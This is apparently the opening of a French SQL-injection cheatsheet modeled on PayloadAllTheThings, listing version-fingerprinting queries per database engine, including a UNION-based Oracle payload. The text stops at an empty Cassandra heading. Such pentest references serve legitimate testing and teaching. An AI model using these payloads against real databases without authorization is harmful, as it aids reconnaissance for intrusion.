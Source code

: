 # Cheatsheet pour les injections SQL inspirée de PayloadAllTheThings

## Payloads de version

### MSSQL
    SELECT @@version
    
### MYSQL
    SELECT version()
    
### OracleSQL
    SELECT user FROM dual UNION SELECT * FROM v$version

### PostgreSQL
    SELECT version()
    
### SQLite
    select sqlite_version();
    
### Cassandra 
